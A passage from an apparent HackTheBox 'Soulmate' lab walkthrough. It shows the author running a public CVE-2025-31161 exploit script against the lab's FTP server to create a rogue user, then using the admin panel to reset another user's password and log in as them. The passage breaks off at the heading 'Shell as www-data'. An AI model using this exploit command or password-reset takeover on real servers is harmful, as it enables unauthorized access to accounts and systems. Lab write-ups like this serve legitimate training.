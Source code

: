 <img width="1012" height="821" alt="image" src="https://github.com/user-attachments/assets/21070de8-0b2a-44d5-bf99-83da263cd43a" />

Actually i spent quite some time here because the tools is quite broken. 

Ran the same commands for 2 times but one not working and suddenly the next time, it work just fine..

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Soulmate]
└─$ python 52295.py --target ftp.soulmate.htb --port 80 --exploit --target-user root --new-user wekwek --password wekwek123!       

[36m
  / ____/______  _______/ /_  / ____/ /_____
 / /   / ___/ / / / ___/ __ \/ /_  / __/ __ \
/ /___/ /  / /_/ (__  ) / / / __/ / /_/ /_/ /
\____/_/   \__,_/____/_/ /_/_/    \__/ .___/
                                    /_/
[32mCVE-2025-31161 Exploit 2.0.0[33m | [36m Developer @ibrahimsql
[0m

Exploiting 1 targets with 10 threads...
[+] Successfully created user wekwek on ftp.soulmate.htb
Exploiting targets... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% (1/1) 0:00:00

Exploitation complete! Successfully exploited 1/1 targets.

Exploited Targets:
→ ftp.soulmate.htb

Summary:
Total targets: 1
Vulnerable targets: 0
Exploited targets: 1
```

### Admin Panel Logged In

Logged in with the new username and password -> Admin -> User manager -> ben -> Generate Random Password *(change to any password you prefer)* -> Use this -> Ok -> Save

<img width="1710" height="382" alt="image" src="https://github.com/user-attachments/assets/869918d7-068d-43a6-bc2d-d722883ba84f" />

<img width="1721" height="774" alt="image" src="https://github.com/user-attachments/assets/16d609d7-fb2b-41af-9741-1bf0c357671e" />

<img width="1706" height="838" alt="image" src="https://github.com/user-attachments/assets/b0a205f7-9df4-4dd0-909d-b2195a04417a" />

**Relogged** in as **ben** with password *(because from ben user's stuff he's the one had full read and write access for http://soulmate.htb)*

<img width="1717" height="684" alt="image" src="https://github.com/user-attachments/assets/3a73ca3b-324d-4c7e-83bd-b7cfe57f61ba" />

## Shell as www-data
